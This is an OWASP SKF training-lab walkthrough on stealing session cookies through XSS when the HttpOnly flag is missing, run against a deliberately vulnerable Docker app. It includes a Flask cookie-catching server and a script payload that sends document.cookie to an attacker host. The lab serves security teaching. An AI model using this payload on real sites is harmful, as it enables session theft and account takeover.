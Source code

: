# HttpOnly Session Hijacking

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:java-session-hijacking-xss
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:java-session-hijacking-xss
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

The attacker can compromise the session token by using malicious code or programs running at the client-side. The example shows how the attacker could use an XSS attack to steal the session token.

Because the server keeps track of the current authenticated user by means of the value of the session cookie, whenever this session cookie gets compromised an attacker is able to impersonate this user by changing his current session cookie with the compromised session cookie in his browsers session storage.

Lets start the application and login with the default credentials.

username : admin  
password: admin

![](../../.gitbook/assets/java/Session-hijacking-XSS/1.png)

After authenticating to the server we can see that the user has a text-area
field at his dissposal to insert user input. When we press submit we find that
this user supplied input is being reflected on the side of the client. This is a perfect indicator that we might want to start testing for cross site scripting attacks.

Refer to the XSS labs for more information how to test!

Now, at this point we established that the application is suspectible for cross site scripting attacks after playing around with some payloads. However, the goal for this lab is to obtain the users session cookie to perform a session hijacking attack and to be able to impersonate the user on the server.

We can tell if we can hijack the session information by inspecting the cookies and see if the HTTP/HttpOnly attribute is enabled for the session cookie.

Highlighted in red we find this attribute and see that it is not activated for this application

![](../../.gitbook/assets/java/Session-hijacking-XSS/2.png)

Now, we can inject the a piece of malicious javascript to see if we can prompt an alert box that displays the applications session information.

![](../../.gitbook/assets/java/Session-hijacking-XSS/3.png)

![](../../.gitbook/assets/java/Session-hijacking-XSS/4.png)

## Exploitation

Now that we have determined that we can

1\) inject malicious javascript

2\) The HttpOnly attribute is not set for the session cookie

We can start building our malicious payload and hijack the session information to our malicious webserver.

```python
from flask import Flask, request, url_for, render_template, redirect, make_response
import requests

app = Flask(__name__, static_url_path='/static', static_folder='static')
app.config['DEBUG'] = True

@app.route("/<steal_cookie>", methods=['GET'])
def start(steal_cookie):
    return render_template("evil.html")

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=1337)
```

Save the snippet above to > app.py and run the commands below to install some dependencies.

```
$ pip install flask
$ pip install requests
$ python app.py
```

Of course you can also run your app on whatever service you want it does not have to be python flask.

Now that the service is running we want to inject the malicious piece of javascript that is responsible for hijacking the victims session information.

![](../../.gitbook/assets/java/Session-hijacking-XSS/5.png)

```html
<script>
  new Image().src = "http://localhost:1337/?stolen_cookie=" + document.cookie;
</script>
```

After injecting the malicious javascript in the text-area field we see the stolen cookie in the server logs.

![](../../.gitbook/assets/java/Session-hijacking-XSS/6.png)

The attacker can now change the session cookie value in his browers console by the session cookie that we hijacked with our malicous payload to "hijack" the victims account.
